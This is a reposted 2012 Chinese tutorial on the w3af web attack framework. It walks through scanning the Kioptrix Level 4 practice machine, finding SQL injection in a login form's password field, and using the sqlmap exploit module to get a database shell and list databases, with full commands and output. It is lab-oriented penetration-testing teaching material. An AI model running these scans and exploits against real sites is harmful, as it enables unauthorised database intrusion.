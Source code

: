 ```yaml
---
title: "w3af 简单使用教程"
date: 2012-08-25T21:36:30+08:00
lastmod: 2012-08-25T21:37:30+08:00
keywords: [w3af 简单使用教程]
description: "w3af 简单使用教程"
categories: [Misc]

---
```


本文为 2012 年在 [FreeBuf](https://www.freebuf.com/ "FreeBuf") 发表的文章，原地址为：[w3af 简单使用教程](https://www.freebuf.com/articles/5472.html "w3af 简单使用教程")。以下内容均无修改。

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

<!--more-->

## 0×00 概述

在BackTrack5R3下使用w3af测试Kioptrix Level 4的SQL注入漏洞.

## 0×01 简介

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

## 0×02 安装

```shell
root@bt:~# apt-get install w3af
```

## 0×03 启动

```shell
root@bt:~# cd /pentest/web/w3af/
root@bt:/pentest/web/w3af# ./w3af_console
```

## 0×04 漏洞扫描配置

```text
w3af>>> plugins
//进入插件模块
w3af/plugins>>> list discovery 
//列出所有用于发现的插件
w3af/plugins>>> discovery findBackdoor phpinfo webSpider 
//启用findBackdoor phpinfo webSpider这三个插件
w3af/plugins>>> list audit 
//列出所有用于漏洞的插件
w3af/plugins>>> audit blindSqli fileUpload osCommanding sqli xss 
//启用blindSqli fileUpload osCommanding sqli xss这五个插件
w3af/plugins>>> back
//返回主模块
w3af>>> target
//进入配置目标的模块
w3af/config:target>>> set target http://192.168.244.132/
//把目标设置为http://192.168.244.132/
w3af/config:target>>> back
//返回主模块
```

## 0×05 漏洞扫描

```text
w3af>>> start
```

```text
---
New URL found by phpinfo plugin: http://192.168.244.132/
New URL found by phpinfo plugin: http://192.168.244.132/checklogin.php
New URL found by phpinfo plugin: http://192.168.244.132/index.php
New URL found by webSpider plugin: http://192.168.244.132/
New URL found by webSpider plugin: http://192.168.244.132/checklogin.php
New URL found by webSpider plugin: http://192.168.244.132/index.php
Found 3 URLs and 8 different points of injection.
The list of URLs is:
- http://192.168.244.132/index.php
- http://192.168.244.132/checklogin.php
- http://192.168.244.132/
The list of fuzzable requests is:
- http://192.168.244.132/ | Method: GET
- http://192.168.244.132/ | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/ | Method: GET | Parameters: (view="phpinfo")
- http://192.168.244.132/checklogin.php | Method: GET
- http://192.168.244.132/checklogin.php | Method: POST | Parameters: (myusername="", mypassword="")
- http://192.168.244.132/index.php | Method: GET
- http://192.168.244.132/index.php | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/index.php | Method: GET | Parameters: (view="phpinfo")
Blind SQL injection was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The injectable parameter is: "mypassword". This vulnerability was found in the requests with ids 309 to 310.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "supplied argument is not a valid MySQL". The error was found on response with id 989.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "mysql_". The error was found on response with id 989.
SQL injection in a MySQL database was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The sent post-data was: "myusername=John&Submit=Login&mypassword=d'z"0". The modified parameter was "mypassword". This vulnerability was found in the request with id 989.
Scan finished in 19 seconds.
---
//开始扫描
```

## 0×06 漏洞利用配置

```text
w3af>>> exploit 
//进入漏洞利用模块
w3af/exploit>>> list exploit
//列出所有用于漏洞利用的插件
w3af/exploit>>> exploit sqlmap 
//使用sqlmap进行SQL注入漏洞的测试
```

```text
---
Trying to exploit using vulnerability with id: [1010, 1011]. Please wait...
Vulnerability successfully exploited. This is a list of available shells and proxies:
- [0] <sql object ( dbms: "MySQL >= 5.0.0" | ruser: "root@localhost" )>
Please use the interact command to interact with the shell objects.
---
//测试存在SQL注入漏洞
//这里要记住shell objects(这里是0),等一下要用到
0x07 漏洞利用
w3af/exploit>>> interact 0
//interact + shell object就可以利用了

---
Execute "exit" to get out of the remote shell. Commands typed in this menu will be run through the sqlmap shell
w3af/exploit/sqlmap-0>>> 
---
//sqlmap的一个交互式模块

w3af/exploit/sqlmap-0>>> dbs   

---
Available databases:  [3]:
[*] information_schema
[*] members
[*] mysql
---
//成功获得数据库信息
```
